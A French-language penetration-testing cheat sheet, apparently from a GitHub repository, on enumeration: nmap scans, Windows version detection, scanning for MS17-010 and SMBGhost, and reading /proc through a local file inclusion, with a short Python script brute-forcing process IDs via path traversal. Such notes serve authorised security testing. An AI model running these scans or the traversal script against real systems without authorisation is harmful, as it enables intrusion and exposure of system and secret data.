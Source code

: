 # Enumération

### Enumération des machines + services (nmap)

* Scan rapide des 1000 ports les plus communs sur un intervalle d'adresses IP :

```
nmap --max-retries 1 -T4 -sS --open -oX nmapSimple_<IP>.xml -oN nmapSimple_<IP>.txt <IP>/<MASK>
```

* Scan des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sV --open <IP>/<MASK>
```

* Scan UDP des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sU -sV --open <IP>/<MASK>
```

* Utiliser un script :

```
nmap --script <SCRIPT> -p <PORT> <IP>/<MASK>
```

#### TIPS (nmap)

* Utiliser l'option `-Pn` de `nmap` pour les scans sur les machines Windows.
* Utiliser l'option `-p-` de `nmap` pour scanner tous les ports.

### Enumération des versions d'OS Windows

```
cme smb <IP>/<MASK>
```

```
RunFinger.py -i <IP>/<MASK>
```

**Note :** _Le lien suivant indique si une version est maintenue ou pas : https://docs.microsoft.com/fr-fr/windows/release-health/release-information_

### Enumération des machines vulnérables à MS17-010

_RCE à cause d'une faille du protocole SMBv1_

```
nmap -v -p 445 --script smb-vuln-ms17-010.nse -Pn -oN nmap_scan_ms17-010_<IP>.txt <IP>/<MASK>
```

```
msfconsole (auxiliary/scanner/smb/smb_ms17_010)
```

### Enumération des machines vulnérables à Bleed et Ghost

```
nmap -p 445 --script cve-2020-0796 -Pn -oN nmap_scan_smbBleed_Ghost_<IP>.txt <IP>/<MASK>
```

### Enumération des services _via_ une LFI (Linux)

Dans le répertoire `/proc` chaque processus possèdes un répertoire. Dans celui-ci, il est possible de récupérer des informations sur les services en cours d'exécution.

* Service en écoute sur la machine :

```
/proc/net/tcp
/proc/net/tcp6 
```

* Information sur un processus en particulier :

```
/proc/<PID>/environ
```

* Commande ayant était exécutée pour lancer un processus :

```
/proc/<PID>/cmdline
```

#### Script d'énumération

```
import requests

for i in range (0,10000):
	x = requests.get('http://domain.com?param=/../proc/' + str(i) + '/cmdline')
	if len(x.content) >= 158:
		print(i)
	if i%100 == 0:
		print(str(i) + '%')
```
